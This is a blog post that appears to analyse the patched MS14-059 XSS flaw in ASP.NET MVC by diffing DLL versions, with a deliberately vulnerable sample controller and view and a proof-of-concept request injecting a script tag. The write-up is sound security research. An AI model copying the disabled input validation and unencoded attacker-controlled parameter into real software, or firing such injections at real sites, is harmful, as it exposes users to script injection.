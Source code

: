 ```yaml
---
layout: default
title:  "MS14-059 - Analysis and POC"
date:   2017-08-12 19:25:00
categories: aspnetmvc
preview: ""
---
```


{{ page.title }}
================

A few days ago I was on DotNetNuke's website and decided to look at the latest security updates. In this list, among other things, I saw that DNN has added support for a version of ASP.NET MVC released in 2016.

**Issue Title**<br />
*2017-06 (Low) Vulnerable ASP.NET MVC library (assembly) in Platform 8.0.0 and Evoq 8.3.0*

**Issue Summary**<br />
*Microsoft released a MVC vulnerability fix (KB2990942) a while ago. As DNN is using the MVC assembly from Microsoft, there is a need to update this assembly in DNN sites.*

**Mitigating factors**<br />
*The vulnerability could allow security feature bypass if an attacker convinces a user to click a specially crafted link or to visit a webpage that contains specially crafted content designed to exploit the vulnerability. <br />
By default, DNN distributions don't have any code utilizing the code that causes this vulnerability. But if you have a third party MVC module(s) you might be vulnerable.* <br />

Depending on the description in this advisory, it may be a Cross-Site Scripting (XSS) vulnerability but details are not included in the alert. So I decided to gather more information.

### Step #1 - Download the vulnerability fix (KB2990942)

In order to understand the applied fixes, the first step is to download the Microsoft patch, KB2990942.
KB2990942 is a msi archive that contains multiple files:
* System.Web.Mvc.dll
* System.Net.Http.dll
* System.Net.Http.Formatting.dll
* System.Net.Http.WebRequest.dll
* System.Web.Http.dll
* System.Web.Http.SelfHost.dll
* System.Web.Http.WebHost.dll

I decided to analyze the **System.Web.Mvc.dll**, that into this update is the 4.0.40804.0 version.

![Unzip KB2990942 msi]({{ site.url }}/assets/images/posts/ms14-059-analysis-and-poc/unzip-msi-fix.png)

### Step #2 - Download the unpatched DLLs

Once that I got the patched DLLs, I downloaded the previous version of the System.Web.Mvc dll from NuGet website. This task was easy because:
1. www.nuget.org lists all versions of the available Microsoft ASP.NET MVC DLLs
2. all these DLLs can be downloaded with the help of nuget.exe tool

According to the NuGet website the previous version of ASP.NET MVC 4.0.40804 is 4.0.30506.

![nuget download]({{ site.url }}/assets/images/posts/ms14-059-analysis-and-poc/nuget-download.png)

### Step #3 - DllDiff

I had two DLLs: patched and unpatched version of System.Web.Mvc.dll.

The simplest way to find the differences between patched and unpatched System.Web.Mvc.dll is compare this two DLLs. There are multiple methods to do this, but since System.Web.Mvc.dll has been wrote in C# Microsoft .NET language I used the following approch:

1. I used JetBrains dotPeek to decompile these 2 DLLs
2. I exported the source code files to the file system (Right-click on the DLL -> Export to Project)
3. With the help of WinMerge I compared these 2 projects in order to find the differences

*If you try to reproduce the step (3) remember to add the following Linefilters in WinMerge, otherwise you will get a lot of junk as result:*
```
^// MVID:
^// Assembly:
```

WinMerge found 41 modified files. A lot of these findings were false positives due to the compiler optimization or decompiler issues. Others were changes not related to a security fix. But 6 of these files were interesting:
* DefaultDisplayTemplates.cs
* DefaultEditorTemplates.cs
* CachedDataAnnotationsModelMetadata.cs
* CachedModelMetadata1.cs
* DataAnnotationsModelMetadataProvider.cs
* ModelMetadata.cs

The patched version of these files have code related to the HTML encoding. For example, *DefaultDisplayTemplates.cs* has a new *HtmlTemplate.Encode()* call in the *ObjectTemplate()* method.
```c
internal static string ObjectTemplate(HtmlHelper html, TemplateHelpers.TemplateHelperDelegate templateHelper)
{
	...
	
	if (modelMetadata.Model == null)
           return modelMetadata.NullDisplayText;

	if (cDisplayClass5.templateInfo.TemplateDepth > 1)
	{
		string str = modelMetadata.SimpleDisplayText;

		// new code encodes HTML string
		if (modelMetadata.HtmlEncode)
		   str = html.Encode(str);
		return str;
	}

	...

}
```

### Step #4 - Exploit

All the code fixes in System.Web.Mvc.dll seem to be related to a Cross-Site Scripting (XSS) vulnerability, but in which scenarios it may be exploited?

*DefaultDisplayTemplates.ObjectTemplate()* is the default handler that ASP.NET MVC uses when a web site renders an *Object* with the HTML helpers, such as *@Html.DisplayFor()*.

Below image shows the default display handlers defined in the *System.Web.Mvc.Html.TemplateHelpers* class (https://github.com/ASP-NET-MVC/aspnetwebstack/blob/master/src/System.Web.Mvc/Html/TemplateHelpers.cs#L26):

![default display handlers]({{ site.url }}/assets/images/posts/ms14-059-analysis-and-poc/default-display-actions.png)

Because the vulnerable code is triggered only when *TemplateDepth* is greater than 1, in my POC I used a list of *Object*.

Vulnerable ASP.NET MVC Controller:
```c
namespace WebSite.Vulnerable.Controllers
{
    public class HomeController : Controller
    {

	// turn off the ASP.NET Request Validation
        [ValidateInput(false)]

        // firstCirty is the attacker-controlled param
	public ActionResult Index(string firstCity)
	{
     	    String username = "bob";

            var addresses = new List<Models.Address>();

	    // attacker-controlled param without any type of security control
	    addresses.Add(new Models.Address(firstCity, "Italy"));
	    
	    addresses.Add(new Models.Address("Berlin", "Germany"));

            var model = new Models.User(username, addresses);

	    // malicous model returned to the View
            return View(model);
	}
    }
}

```

Vulnerable ASP.NET MVC View:
```
@model WebSite.Vulnerable.Models.User

<!DOCTYPE html>
<html>
<head>
    <meta charset="utf-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>MS14-059</title>
</head>
<body>

    <div class="container body-content">

        <h1>MS14-059</h1>

	<!-- I render a model property with the default ASP.NET MVC template
	     that calls the vulnerable DefaultDisplayTemplates.ObjectTemplate()  -->
        <div class="user-info-box">
	    @Html.DisplayFor(x => x.Addresses)
	</div>

    </div>

</body>
</html>
```

A malicious user could trigger a XSS vulnerability in the above code with the following HTTP GET request:
```
http://<website>/Home/Index?firstCity=<script>alert(1)</script>
```

You can download the full project [here][1].

## References
* [DNN Security Center](http://www.dnnsoftware.com/community/security/security-center)
* [Microsoft Security Fix - KB2990942](https://www.microsoft.com/en-us/download/details.aspx?id=44533)
* [Microsoft Security Bulletin MS14-059](https://technet.microsoft.com/en-us/library/security/ms14-059.aspx)
* [HtmlHelper.Encode()](https://msdn.microsoft.com/en-us/library/system.web.mvc.htmlhelper.attributeencode(v=vs.118).aspx#M:System.Web.Mvc.HtmlHelper.AttributeEncode(System.String))


[1]:{{ site.url }}/assets/data/ms14-059-analysis-and-poc/ms14-059-sample-project.zip